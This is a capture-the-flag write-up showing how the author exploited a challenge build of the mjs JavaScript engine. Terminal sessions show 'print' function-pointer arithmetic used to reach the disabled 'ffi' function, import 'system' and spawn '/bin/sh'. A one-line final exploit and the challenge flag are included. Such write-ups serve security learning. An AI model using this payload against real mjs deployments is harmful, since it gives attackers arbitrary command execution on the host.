



# 0x0 Introduction

Description: TDB

Files: TBD


# 0x1 Investigating Repository

looking at mjs github [repo](https://github.com/cesanta/mjs)

I found three vary suspicious function. `mkstr` and `ffi`. 

`mkstr` allow you make string in **any** memory address.

`ffi` allow you to import C function into js environment. This means we can import `system` into js environment and call `system('/bin/sh')` to getting a shell.



However, challenge disabled those function. So, if you are trying to call those function, you will find this function is not defined. 




When I'm playing around with this javascript engine. I found following interesting statements. 

We can operate function pointer using mathematical operation (like C). 


```bash
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
17:19:25 $ ./mjsvuln -e "print(print)"
<foreign_ptr@405920>
undefined
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:25:52 $ ./mjsvuln -e "(0x405920)(1)"
  at <stdin>:1
MJS error: calling non-callable
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:26:04 $ ./mjsvuln -e "(print+9-9)(print)"
<foreign_ptr@405920>
undefined
```

*The binary is compiled with glibc2.34. I'm using Ubuntu20.04, so I need to recompile the binary again. So, some function offset might is different from the original binary.*

I calculated the offset between `print` and `ffi`. And try to call `ffi` again. This time, it succeed with an unknown function pointer.



```bash
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:46:33 $ python -c "print(0x0040cbb0-0x00405920)"
29328
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:46:38 $ ./mjsvuln -e 'let f= (print+29328)("int system(char *)");'
<???-562949926229504>
```

Then I can just called `/bin/sh` and got the shell

```
[aynakeya @ LAPTOP-T6NBK8L5]:/mnt/d/workspace/kalmarctf/mjs_handout
18:46:40 $ ./mjsvuln -e 'let f= (print+29328)("int system(char *)");f("/bin/sh")'
$ ls
Dockerfile  README.txt  diff.patch  exploit.js  mjs  mjs_src  mjsvuln  remote.py  source  ynetd
$
```

# 0x2 final exploit

offset is little different in the original binary

exploit.js
```
let f= (print+27312)("int system(char *)");f("/bin/sh")
```

# 0x3 flag

`kalmar{mjs_brok3ey_565591da7d942fef817c}`